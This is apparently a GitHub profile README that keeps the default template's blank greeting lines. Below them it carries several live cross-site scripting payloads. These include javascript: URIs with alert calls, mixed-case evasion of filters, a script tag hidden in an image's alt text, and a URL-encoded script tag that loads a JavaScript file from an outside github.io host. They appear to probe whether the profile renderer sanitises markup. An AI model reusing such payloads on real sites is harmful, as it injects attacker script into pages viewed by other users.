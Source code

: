 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![
<img src="JaVaScRiPt:alert('XSS')" alt="<SCRIPT>alert()</SCRIPT>">
<IMG SRC= img/%3cscript+src=https://r89shi.github.io/teste.js%3e >

](()
